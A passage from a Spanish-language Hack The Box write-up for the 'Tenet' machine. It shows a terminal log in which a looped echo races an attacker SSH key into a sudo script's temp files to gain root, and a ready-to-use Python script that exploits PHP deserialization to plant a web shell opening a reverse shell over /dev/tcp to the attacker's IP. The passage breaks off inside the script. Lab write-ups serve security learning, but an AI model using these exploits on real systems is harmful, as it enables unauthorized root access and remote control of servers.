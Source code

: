 ```bash
neil@tenet:~$ while true; do echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAA******************+3pDXrNbTdMPY07cfQHLmx45hhsQBOa9QGOGxxey9TrV6DojyYIf3ScKFsPQNvB1NUz2v8whgnBQ1h4Zny4khj0btaRuYDD7+1gw***********2AMa5MSwQsE6RrZ/TD9v+Ljx79vrw/VRGTfETCzP4EQQtktyLbHbAWiM8QxjmbdZ5anYRg4XrjiYmTZ08nU1I2217szuj4Gf36bHIUErBbaSKHAyLph1nh3uMzGHVIAA+nn22+KJvlT6bRWd9Ff7EosE6SQk0HPmS4ZQvJrQdAsDQdJDlt7InSpJ3ogHNqi2Zpe2eljl3P57NviKUr4dqRz0BcBQws2mRJQrbI2vR/RTaXdoMNk= root@kali" | tee /tmp/ssh*; done
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
neil@tenet:~$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
neil@tenet:~$ sudo /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                                                                                                                                                                                                                       
❯ ssh root@10.10.10.223
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
Last login: Thu Feb 11 14:37:46 2021
root@tenet:~#
```

Os dejo por aqui tambien el Script qutomatizado para la intrusion como el usuario www-data:

```python
#!/usr/bin/python3

#Script que automatiza la intrusion como www-data en la maquina Tenet de HTB
#Solo teneis que cambiar la IP

import requests
import sys
import time
import threading
from pwn import *

#Variables
IP = "10.10.16.198" # <= Cambiar IP
url_main = "http://10.10.10.223/sator.php/?arepo="
url_shell = "http://10.10.10.223/tukurce.php"
payload = "O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A11%3A%22tukurce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F"
payload2 = "%2F443+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D"
lport = 443
#Funciones
def obtainShell():
    
    try:
        s = requests.Session()
        r = s.get(url_main+payload+IP+payload2)
        p1 = log.progress("\n[*]Ejecutando PHP Deserialization\n")
        time.sleep(2)
        p1.status("\nEnviando el payload malicioso...\n")
        r = s.get(url_shell)

    except Exception as e:
        print(e)

if __name__ == '__main__':
    try:
        threading.Thread(target=obtainShell).start()
    except Exception as e:
```